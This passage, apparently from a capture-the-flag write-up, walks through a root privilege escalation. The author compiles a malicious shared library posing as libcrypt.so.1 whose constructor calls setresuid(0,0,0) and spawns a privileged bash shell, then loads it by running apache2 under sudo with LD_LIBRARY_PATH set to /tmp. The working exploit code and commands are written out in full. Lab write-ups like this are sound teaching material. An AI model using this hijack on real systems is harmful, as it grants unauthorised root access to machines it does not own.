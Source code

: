 I chosed `libcrypt.so.1` to hijack, and created the following file at `/tmp/exploit.c`:
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Then, I compiled my script and output it to `/tmp/libcrypt.so.1`:
```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/exploit.c
```
Finally, I ran `apache2` with `sudo`, while while settings the `LD_LIBRARY_PATH` environment variable to `/tmp`:
```bash
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

As described, the process results in escalation to root:
```bash
root@Hijack:/tmp# whoami
root
```
Finally, with root access, I am able to obtain the flag at `/root/root.txt`:
```bash
root@Hijack:/root# cat root.txt 

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{REDACTED}
```
